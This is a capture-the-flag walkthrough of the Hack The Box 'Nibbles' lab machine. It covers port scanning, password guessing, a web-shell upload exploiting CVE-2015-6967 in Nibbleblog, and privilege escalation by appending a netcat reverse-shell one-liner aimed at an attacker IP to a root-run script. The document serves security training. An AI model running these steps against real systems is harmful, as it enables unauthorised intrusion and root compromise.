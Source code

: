 ```yaml
---
title: Nibbles
date: 2025-07-03 19:19:00 +/-0100
categories: [HackTheBox Machines]
tags: [CTF,HackTheBox]
image: /assets/img/Machines/Nibbles/Nibbles.png
description: 
    This post documents my walkthrough of the Nibbles machine from Hack The Box. It involves basic enumeration, a web app vulnerability, and simple Linux privilege escalation.
---
```





## Enumeration

### Port Scanning
The first thing that we're going to do is scanning for open ports using Nmap.

```bash
# Nmap 7.95 scan initiated Wed May  7 18:25:33 2025 as: /usr/lib/nmap/nmap -Pn -n -sC -sV -T4 -p- -oA Nmap-All-Ports 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.051s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May  7 18:26:06 2025 -- 1 IP address (1 host up) scanned in 32.22 seconds
```
The Nmap scan returns a bunch of information, such as:
- The operating system is Ubuntu.
- Port `80/tcp` is open and running `HTTP` (Apache httpd 2.4.18).
- Port `22/tcp` is open and running `SSH` (OpenSSH 7.2p2 Ubuntu 4ubuntu2.2).

Since we don't have SSH credentials, we'll focus our attention on port 80.

### HTTP - Port 80

We begin by inspecting the root directory.

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ curl 10.10.10.75 -o RDirectory-SC
```

![Desktop View](/assets/img/Machines/Nibbles/Root-Directory.png)

While inspecting the root directory, we discovered a new subdirectory: `/nibbleblog`.

### /nibbleblog

![Desktop View](/assets/img/Machines/Nibbles/Nibbleblog-Webpage.png)

Nothing intersting in this directory beside that the website is powered by `nibbleblog`.  
Using `Wappalyzer` we found the following results:

![Desktop View](/assets/img/Machines/Nibbles/Wappalyzer.png)

Page extension should be `.php`

### Directory / Page Fuzzing

```bash
krakenn@Phoenix:~/CPTS/Boxes/NIBBLES$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.75:80/nibbleblog/FUZZ -ic -e .php -o Directory-Fuzzing.json
```

![Desktop View](/assets/img/Machines/Nibbles/Directory-Page-Fuzzing.png)

#### /README 

![Desktop View](/assets/img/Machines/Nibbles/Nibbleblog-version.png)

This reveals the version of Nibbleblog that is being used. → `Nnibbleblog v4.0.3`

#### /content/users.xml

![alt text](../assets/img/Machines/Nibbles/content-users.png)

Username → `admin`

#### /admin.php 

![alt text](../assets/img/Machines/Nibbles/admin-pge.png)

It seems like the app blacklist IPs after some failed attemps.
After a deep inspection of the pages found i couldn't find a valid password, also nibbleblog does not have default creds. 
So we'll need to guess the password.

- admin : password
- admin : root
- admin : administratot
- `admin` : `nibbles`  → This one worked

## Exploitation

CMS used: `Nibbleblog v4.0.3`
This version of Nibbleblog is vulnerable to `CVE-2015-6967` which is an unrestricted file upload vulnerability in the `Image plugin` that allows remote administartors to execute arbitrary code by uploading a file with an executable extension, then accessing it via a direct request to the file in `content/private/plugins/my_image/image.php`

CVE Links:
- [CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967)  
- [POC](https://packetstorm.news/files/id/133425)

Web Shells used:
- [wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
- [p0wny-shell](https://github.com/flozz/p0wny-shell)

Go to : `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`  
Upload the web shell. ignore the errors

![alt text](../assets/img/Machines/Nibbles/webshell.png)

Finally access the image in `http://<IP_@>/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`

![alt text](../assets/img/Machines/Nibbles/whoami.png)

As we can see the web shell works perfectly.  
Now let's search for the user flag.

![alt text](../assets/img/Machines/Nibbles/user-flag.png)

## Privilege Escalation

The first thing to do is run the `sudo -l` command to check if the current user can execute any commands as root without requiring the root password.

![alt text](../assets/img/Machines/Nibbles/sudo-l.png)

It turns out that the user `nibbler` can run `monitor.sh` as root.

**PS:** Don't mind me changing the web shell. I just wanted to test them both.

```bash
nibbler@Nibbles:…/plugins/my_image# unzip personal.zip

nibbler@Nibbles:…/plugins/my_image# cd personal/stuff

nibbler@Nibbles:…/plugins/my_image# echo "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [Attacker_IP] 1234 > /tmp/f" >> monitor.sh
```

![alt text](../assets/img/Machines/Nibbles/Priv_Escalation.png)

Now let's search for the root flag.

```bash
root@Nibbles:/home/nibbler/personal/stuff# cd /root

root@Nibbles:/home/nibbler/personal/stuff# cat root.txt
```

![alt text](../assets/img/Machines/Nibbles/root-flag.png)

# Mission complete

![alt text](../assets/Done.gif)